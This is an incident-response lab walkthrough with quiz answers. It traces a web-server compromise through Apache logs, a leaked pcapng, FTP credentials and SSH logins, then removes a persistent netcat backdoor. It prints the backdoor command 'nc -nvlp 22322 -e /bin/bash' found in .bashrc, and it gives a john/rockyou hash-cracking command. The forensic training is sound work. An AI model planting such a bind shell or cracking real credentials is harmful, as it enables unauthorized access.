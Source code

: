 # Log Analysis

Any machine exposed to the Internet is at risk of getting compromised. Detecting these attack attempts, even if they are not successful, is crucial for securing servers, hosts or any other asset. When access is gained into a potentially compromised machine, the first thing that should be done is to figure out the attack vectors that could have been used to compromise the device. Since the machine is running a web server, checking logs related to HTTP requests could disclose any malicious activity.

To check the website open a browser window and search for `http://hdmovies.ca`

The website is being hosted in an Apache web server, and the best place to check the web traffic is the Apache access log, which contains all recorded data for requests processed by the Apache server. To do that, go to _/var/log/apache2_ and read the access.log.
`sudo cat /var/log/apache2/access.log.1

Sort the logs and look for anything suspicious. Focus on uncommon User Agents or files that do not appear to be web resources.

What is the name of suspicious file? `dailytraffic.pcapng`
# Analyzing compromised files

After finding the files accessed by the attacker, download it to _/home/kali_ to start analyzing it.
`wget http://hdmovies.ca/filename

Now, it has been determined that the file the attacker downloaded from the server is a **.pcapng** file. **PCAPNG** (Packet Capture Next Generation) file format is related to captured data packets over a network.

To open Wireshark and analyze the downloaded File, use the following command:
`sudo wireshark filename

Start analyzing the traffic for any potentially leaked information that the attacker could have found and used. In the display it is shown that some FTP traffic was captured. Some versions of FTP are not safe to use because they rely on plain text usernames and passwords for authentication and do not use encryption. Following a certain stream, a packet has a leaked file which contains content in plain text.

You can also apply a display filter in wireshark: ftp-data

Right click at hash and go to Follow > TCP Stream and Save As it in _/home/kali/leaked_hash.txt_.

What is the username found in the leaked file? `admin`
# Assessing credential strength

Try and find out if the hash found is weak and if the attacker could have used methods like brute forcing to crack it. Rainbow table attacks are one of the ways used for breaking hash-based authentication. Hash values of most common passwords are generated and stored in files known as rainbow tables. When the plaintext version of a hashed password is needed, the hash gets compared to all the values in that table. One tool that performs such an attack is john. To use it, open the terminal and type the following command:
`john --wordlist=/usr/share/wordlists/rockyou.txt leaked_hash.txt > crackedpassword.txt

Save the output to a new _crackedpassword.txt_ file. Read the file to see if any hash got cracked.

After cracking the file, what is the user's password? `admin`
# Analyzing the intruder's attack pattern

After figuring out that the attacker probably cracked the admin hash, it is safe to assume that those credentials were used to gain access to the system. Let's find out what service the attacker used to log in to the machine. The best approach is to check all running services and see if any of them could provide an entrypoint for the attacker. To do that, use the following command:
`service --status-all

This command will show all the services and their status.

_Secure Shell (SSH)_ is cryptographic protocol that allows secure remote access to a host. If an attacker finds valid credentials, they could gain access to the host via SSH. To check the SSH connection established, read the _/var/log/lastlog_ file.
`cat /var/log/lastlog

From which IP address was the SSH connection established? `172.20.0.7`
# Persistence Investigation

As it is shown, in the previous step there was a SSH connection from the same IP that downloaded the _.pcapng_ file from the server.

For mitigation purposes, it is good practice to shut down any running service that might have been compromised.

Now that it is validated that the attacker gained access to the machine, it is crucial to find further damage that might have occurred. Commonly, after an attacker gains access, they will look to place persistence or backdoors on the machine to allow them to have access at all times. Use the _ps -aux_ command to check all running processes and look out for any suspicious process.
`ps -aux

Reading through the output, a command is displayed that is running **netcat** and listening in **port _22322_**, which executes _/bin/bash_, allowing the attacker to interact with a bash session:

This means that the attacker is using this port to connect to the machine persistently. To find out which script or process is initiating **_nc_**, use `ack`. This tool will look through all the system files to find a specific pattern. The pattern in this case is the `nc` command shown below:
`ack 'nc -nvlp 22322 -e /bin/bash'

The '_nc -nvlp 22322 -e /bin/bash'_ command seems to be executed by the .bashrc file which is a script that gets executed each time a bash session is started. To confirm this, go to _.bashrc_ and read the file. Remove the backdoor by locating the _nc_ command and deleting it.

Where is the .bashrc file located? `/home/kali/.bashrc`
